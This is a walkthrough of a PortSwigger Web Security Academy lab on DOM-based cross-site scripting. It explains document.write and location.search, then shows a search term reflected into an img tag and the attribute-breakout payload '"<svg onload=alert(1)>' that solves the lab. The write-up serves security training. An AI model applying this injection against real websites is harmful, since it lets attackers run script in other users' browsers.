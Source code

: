 # DOM XSS in document.write sink using source location.search

> **************************Instructions**************************
> 
> 
> This lab contains a [DOM-based cross-site scripting](../../Cross-site%20Scripting%20(XSS)/Sub_Pages/DOM-based%20XSS.md) vulnerability in the search query tracking functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search`, which you can control using the website URL.
> 
> To solve this lab, perform a [cross-site scripting](../../Cross-site%20Scripting%20(XSS)/Cross-site%20scripting%20(XSS).md) attack that calls the `alert` function
> 

# Overview Knowledge

### document.write

`document.write()` method writes a string of text to a document stream opened by `document.open()`

Example:

```html
<html lang="en">
  <head>
    <title>Write example</title>

    <script>
      function newContent() {
        document.open();
        document.write("<h1>Out with the old, in with the new!</h1>");
        document.close();
      }
    </script>
  </head>

  <body onload="newContent();">
    <p>Some original document content.</p>
  </body>
</html>
```

Output:

```html
Some original document content.
```

### location.search

The **`search`** property of the `Location` interface is a search string, also called a *query string*; that is, a string containing a `'?'` followed by the parameters of the URL.

Example:

```jsx
// Let an <a id="myAnchor" href="/en-US/docs/Location.search?q=123"> element be in the document
const anchor = document.getElementById("myAnchor");
const queryString = anchor.search; // Returns:'?q=123'

// Further parsing:
const params = new URLSearchParams(queryString);
const q = parseInt(params.get("q")); // is the number 123
```

# Lab Walkthrough

Access the ********Home******** page of the Lab:

```tsx
URL: https://0a900028049a64c5807cf35600ce000a.web-security-academy.net
```

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20images/Untitled.png)

Type a random simple string into the ************Search************ field:

```tsx
URL: https://0a900028049a64c5807cf35600ce000a.web-security-academy.net/?search=thisisDOM-basedXSS%40
```

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20images/Untitled%201.png)

Verify that your input string has been parsed into the `<img>` tag with `src` attribute:

```html
<img src="/resources/images/tracker.gif?searchTerms=thisisDOM-basedXSS@">
```

Use the `"` to break out the `<img>` tag and embed the `<svg>` with `onload` attribute to call the `alert()` function:

```
thisisDOM-basedXSS@"<svg onload=alert(1)>
```

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20images/Untitled%202.png)

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20images/Untitled%203.png)

![Untitled](DOM%20XSS%20in%20documentWrite%20sink%20using%20source%20locationSearch%20images/Untitled%204.png)